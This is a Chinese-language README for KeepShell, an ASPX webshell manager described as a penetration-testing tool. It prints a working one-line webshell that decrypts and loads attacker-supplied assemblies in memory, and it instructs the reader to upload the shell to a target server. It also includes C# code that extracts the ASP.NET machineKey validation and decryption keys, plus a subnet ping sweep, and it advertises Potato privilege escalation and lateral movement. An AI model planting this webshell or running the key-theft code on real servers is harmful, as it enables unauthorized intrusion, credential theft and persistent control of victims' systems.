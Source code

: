 
# KeepShell：专为ASPX设计的高级WebShell管理工具

KeepShell 是一款专为 ASPX 环境设计的高级 WebShell 管理工具，为安全研究人员和渗透测试人员提供强大的命令执行、权限提升和内网穿透能力。

## 🚀 核心优势

*   高效隐蔽的通信： 采用 二进制流 传输协议，确保通信的高效性与隐蔽性。
*   端到端安全加密： 所有传输 Payload 均经过 AES加密 保护，且每次通信使用 随机密钥，保障数据安全。
*   无痕运行： 支持直接在 内存中加载并执行代码，最大程度避免在磁盘留下痕迹，显著提升操作隐蔽性和安全性。
*   内网级联WebShell控制： 通过现有已控的WebShell，无需部署代理或配置端口转发，即可直接连接并控制处于更深层内网环境中的WebShell节点，实现便捷高效的内网横向穿透。

## 🔥 功能特性

*   Cmd命令执行： 在目标系统上直接执行任意 CMD 命令。
*   PowerShell命令执行： 支持执行 PowerShell 脚本和命令。
*   Shellcode执行： 可在目标环境内直接执行原生的 Shellcode。
*   C#代码执行： 支持在运行时动态加载与执行 C# 代码。
*   端口转发： 实现本地端口到远程内网主机的映射，方便安全地访问内部网络服务。
*   Potato提权： 利用系统服务漏洞进行权限提升，支持两种提权模块：
*   efspotato： 利用 EFSPotato 实现权限提升。
*   badpotato： 利用 BadPotato 实现权限提升。
*   内网级联Cmd命令执行： 支持在复杂的内网环境中，级联多个节点执行 CMD 命令进行横向移动。
*   内网级联PowerShell执行： 支持在复杂的内网环境中，级联多个节点执行 PowerShell 命令进行横向移动。


## 安装与使用

1. **下载KeepShell**
   - https://github.com/0x7556/keepshell/releases

2. **配置环境**
   - 确保目标环境支持ASPX，并已正确配置。

3. **上传KeepShell**
   - 将KeepShell文件上传到目标ASPX服务器。
   
```csharp
<%@ Page Language="C#" %><%if (Request.Cookies.Count != 0) { byte[] k = Encoding.Default.GetBytes(Request.Cookies[0].Value); System.IO.Stream s = Request.InputStream; byte[] c = new byte[s.Length]; s.Read(c, 0, c.Length); System.Reflection.Assembly.Load(new System.Security.Cryptography.RijndaelManaged().CreateDecryptor(k, k).TransformFinalBlock(c, 0, c.Length)).CreateInstance("K").Equals(this); }%>
```
4. **访问WebShell**
   - 通过工具客户端连接WebShell，开始使用。

![keep](http://www.18k.icu/img/keepshell/Keep.png)


## 示例

### Cmd命令执行

![CmdShell示例](http://www.18k.icu/img/keepshell/CmdShell.png)

### PowerShell命令执行

![PowerShell示例](http://www.18k.icu/img/keepshell/PowerShell.png)

### C#代码执行示例

#### 获取 ValidationKey

```csharp

using System;
using System.Reflection;
using System.Web.Configuration;
public class Eval
{
public string eval(Object obj)
{
var sy = Assembly.Load("System.Web, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a");
var mkt = sy.GetType("System.Web.Configuration.MachineKeySection");
var gac = mkt.GetMethod("GetApplicationConfig", BindingFlags.Static | BindingFlags.NonPublic);
var cg = (MachineKeySection)gac.Invoke(null, new object[0]);
return "ValidationKey: " + cg.ValidationKey + " | " + "Validation: " + cg.Validation + " | " + "DecryptionKey: " + cg.DecryptionKey + " | " + "Decryption: " + cg.Decryption + " | " + "CompatibilityMode: " + cg.CompatibilityMode;
}
}

```

![C#代码示例](http://www.18k.icu/img/keepshell/CodeExec.png)

#### ICMP扫描C段存活主机
```csharp

using System;
using System.Net;
using System.Net.NetworkInformation;
using System.Text;
using System.Threading.Tasks;
public class Eval
{
public string eval(Object obj)
{
StringBuilder iplist = new StringBuilder();
string baseIP = "192.168.1.";
PingOptions options = new PingOptions();
options.DontFragment = true;
var tasks = new Task[254];
for (int i = 1; i < 255; i++)
{
int ipSuffix = i;
tasks[i - 1] = Task.Run(() =>
{
using (Ping myPing = new Ping())
{
PingReply reply = myPing.Send(baseIP + ipSuffix, 120);
if (reply.Status == IPStatus.Success)
{
lock (iplist)
{
iplist.AppendLine("Alive IP: " + reply.Address.ToString());
}
}
}
});
}
Task.WaitAll(tasks);
return iplist.ToString();
}
}


```


![C#代码示例](http://www.18k.icu/img/keepshell/CodeExecIcmp.png)

### Potato提权示例

#### efspotato

![EfsPotato示例](http://www.18k.icu/img/keepshell/EfsPotato.png)

#### badpotato


![BadPotato示例](http://www.18k.icu/img/keepshell/BadPotato.png)

### 内网扫描示例

![NetScan示例](http://www.18k.icu/img/keepshell/NetScan.png)

### 端口转发示例

![端口转发示例](http://www.18k.icu/img/keepshell/PortTran.png)


## 免责声明

- 使用KeepShell时，请遵循相关法律法规，确保在授权的环境中进行测试和使用。
- 本工具仅供教育和研究目的，任何滥用行为将由用户自行承担后果。

## 贡献

欢迎任何形式的贡献！请提交问题、建议或拉取请求。

## 许可证

本项目采用MIT许可证，详细信息请参见[LICENSE](LICENSE)文件。

